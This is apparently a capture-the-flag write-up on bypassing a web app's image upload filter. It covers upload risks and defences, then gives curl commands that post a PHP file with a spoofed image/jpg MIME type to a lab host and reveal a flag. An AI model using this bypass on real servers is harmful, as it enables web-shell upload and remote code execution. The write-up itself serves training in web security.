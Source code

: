# Upload bypass

## Impact of a File Upload Attack

- **Phishing attacks** :Hackers can trick users with malicious scripts to gain access to sensitive data.

- **Remote code execution** : Attackers leverage file upload commands to upload a web shell that allows them to execute arbitrary commands on the application server.

## Preventing file upload vulnerability

- **Whitelisting file types** : Implement an allow-list that enforces the usability of only those file extensions that are approved to be used by the application.

- **File upload validation** : When validating file uploads, use trusted validation frameworks that address all potential gaps that attackers could exploit

- **File name restrictions** : Once a file has been uploaded, remove all potentially dangerous characters, including unicode characters and special characters, to prevent injection attacks. Changing the uploaded file’s name is also recommended to prevent directory path exploits.

- **File size restrictions**: Enforce a file size limit and a maximum number of files that can be uploaded to keep attackers from flooding file storage.

## Attack scenario

In ?page=upload page we are asket to upload an image so lets try to upload a malicious file first i tried a file .php and got this response

> Your image was not uploaded.

then I tried next .php.jpg the response was

> /tmp/file.php.jpg succesfully uploaded.

But no flag so there is another way to do it lets try with curl 

> -X to specify the method type in our case its POST

> -F specify data to send (files) example email=blabla@blabla.bla the email is the name of the input

In our case there is 2 input the first one is uploaded that contain the data then Upload to submit

> curl -i -X POST -F "uploaded=@/Users/oel-ouar/Desktop/file.php" -F Upload=Upload http://ipaddress/?page=upload

We got the same response now lets try to change the mime type of the file

> curl -i -X POST -F "uploaded=@/Users/oel-ouar/Desktop/file.php;type=image/jpg" -F Upload=Upload http://10.12.177.243/?page=upload

Worked !

> <h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2>
